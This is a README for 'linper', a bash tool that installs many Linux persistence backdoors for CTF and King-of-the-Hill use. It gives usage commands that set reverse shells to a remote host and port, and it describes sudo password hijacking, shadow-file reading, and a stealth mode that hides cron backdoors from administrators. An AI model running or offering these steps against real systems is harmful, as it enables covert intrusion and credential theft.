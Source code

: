 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## advisory

This was developed with CTFs in mind and that is its intended use case. The stealth-mode option is for King of the Hill style competitions where others might try and tamper with your persistence. Please do not use this tool in an unethical or illegal manner.

## files

- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

Enumerate and do not install

`bash linper.sh --dryrun`

`bash linper.sh -d`

Enumerate all persistence methods and install (stealth mode)

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

Remove all persistence methods for given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set

2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.

3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)

4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

## stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. Makes the files related to installing services hidden by prepending a "."

2. Disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. Creates a `crontab` function in \~/.bash\_aliases to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells.

### known limitation

1. If you run `--stealth-mode` as a sudo enabled user, be aware that you can bypass the `crontab` function installed in \~/.bash\_aliases because aliases are not preserved when running `sudo`, nor does `sudo` call the `root` user aliases. (This does not interfere with the sudo hijack attack)